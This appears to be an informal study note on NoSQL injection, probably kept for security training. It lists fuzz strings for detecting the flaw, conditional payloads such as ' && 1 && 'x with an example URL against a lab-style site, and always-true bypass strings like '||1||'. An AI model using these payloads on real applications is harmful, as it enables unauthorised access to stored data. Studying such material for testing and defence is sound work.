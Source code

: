 # NOSQLi

# TYPES:
### Syntax Injection
### OPerator INjection


##NOSQL SYNTAX NJECTION
'"`{
;$Foo}
$Foo \xYZ  -------> if request is from URL 

for JSON --> '\"`{\r;$Foo}\n$Foo \\xYZ\u0000

the above strings can be used to test fot noslqi if detectable changes or eroor is caused

now that we have found the presence of Nosqli we test 
whci characters are processed we can try to inject all specula charcter like ' " etc to break nosqli syntax
STEp2 -->confirm conditional behavior
' && 0 && 'x and ' && 1 && 'x as    -----> we can use the followinf like methods to detect conditional behaviour
usage --> https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x

step3 try to override the suntac like we do in sqli which alway evaluated to be ture and gives us all the data
we can use 
'||1||'
or 
this.category == 'fizzy'||'1'=='1'
